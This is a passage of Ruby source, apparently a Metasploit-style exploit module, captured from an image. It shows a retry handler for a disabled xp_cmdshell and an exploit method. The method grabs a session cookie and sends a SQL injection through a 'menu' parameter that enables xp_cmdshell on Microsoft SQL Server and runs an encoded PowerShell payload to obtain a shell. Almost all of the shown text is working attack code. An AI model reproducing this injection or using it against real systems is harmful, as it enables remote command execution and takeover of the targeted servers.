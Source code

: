 ```
      return res

    rescue RuntimeError => e
      if(e.to_s =~ /xp_cmdshell disabled/)
        force_enable = true
        retry
      end
      raise e
    end
  end

  def exploit
    peer = "#{rhost}:#{rport}"
    uri = target_uri.path

    vprint_line("#{peer} - Getting a session token...")
    
    res = send_request_cgi({
      'method'    => 'GET',
      'uri'       => normalize_uri(uri, "Login.jsp"),
      'vars_get' => {
      }
    })

    vprint_line("#{peer} - Cookie's in the jar...")

    # Got a cookie, now ready to make exploiting requests
    if res && res.code == 200
        #vprint_line("#{res.headers}")
        cookies = res.get_cookies
        #vprint_line("#{cmd_psh_payload(payload.encoded, payload_instance.arch.first)}")
    else
        vprint_line("No 200 response? I'm outta here")
        return

    end

    # Put together the vulnerable URI
    uri = normalize_uri(uri,"api","v1","menu","menu_items")

    # Generate powershell payload as an encoded string
    powershell_payload = cmd_psh_payload(payload.encoded, payload_instance.arch.first, {:encode_final_payload => true, :remove_comspec => true})

    

    #
    # Inject payload and wait for shell
    #
    print_status("#{peer} - Trying to activate xp_cmdshell and exploit vulnerability")

    sqli = "main';exec master.dbo.sp_configure 'show advanced options',1;RECONFIGURE;exec master.dbo.sp_configure 'xp_cmdshell', 1;RECONFIGURE;EXEC master..xp_cmdshell '#{powershell_payload}';--"
    res = send_request_cgi({
      'method'    => 'GET',
      'uri'       => uri,
      'cookie'    => cookies,
      'vars_get' => {
        'menu' => sqli,
      }
    })


```